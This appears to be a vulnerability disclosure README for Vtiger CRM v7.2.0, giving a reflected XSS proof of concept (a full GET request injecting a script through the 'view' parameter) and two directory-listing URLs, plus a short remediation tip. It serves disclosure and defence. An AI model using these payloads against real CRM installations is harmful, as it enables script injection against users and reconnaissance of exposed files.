 # Vtiger-CRM-Vulnerabilities
Vtiger CRM v7.2.0 has Cross-Site Scripting (XSS) and directory listing vulnerabilities.

## Vtiger CRM Reflected XSS Vulnerability
Reflected XSS in the [Vtiger CRM v7.2.0](https://www.vtiger.com/open-source-crm/download-open-source/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

### PoC
To exploit vulnerability, someone could use a GET request to **'http://[server]//vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E'** by manipulating **'view'** parameter in the request header to impact users who open a maliciously crafted link or third-party web page.


```
GET /vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E HTTP/1.1
Host: 172.16.155.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=nc32t8env2h236vf3s6ftor3im
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_01.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_03.png)

## Vtiger CRM Directory Listing Vulnerabilities

### PoC

```
http://[server]/vtigercrm/libraries/
http://[server]/vtigercrm/layouts/
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_01.png)


## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
